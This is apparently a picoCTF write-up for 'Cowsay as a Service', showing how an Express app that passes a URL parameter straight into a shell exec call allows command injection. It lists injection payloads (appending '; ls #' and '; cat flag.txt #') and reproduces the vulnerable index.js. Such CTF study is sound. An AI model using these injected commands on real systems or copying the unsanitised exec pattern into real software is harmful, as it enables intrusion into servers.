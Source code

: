 
# Description #

Now presenting cowsay as a service


# Cowsay as a Service

**Make a request to the following URL to cowsay your message:**  
`https://caas.mars.picoctf.net/cowsay/{message}`



# Process #


This exploitation is very simple, its a remote command execution vulnerability 


`https://caas.mars.picoctf.net/cowsay/message`

This retrieves a cow giving you a message.

If you put message ; ls # 

`https://caas.mars.picoctf.net/cowsay/message ; ls #`

you will see the files of the machine



if you put cat flag.txt you will see the fag.

`https://caas.mars.picoctf.net/cowsay/message; cat flag.txt #`


```
picoCTF{*******************}
```



# Assets #

index.js
```
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});


```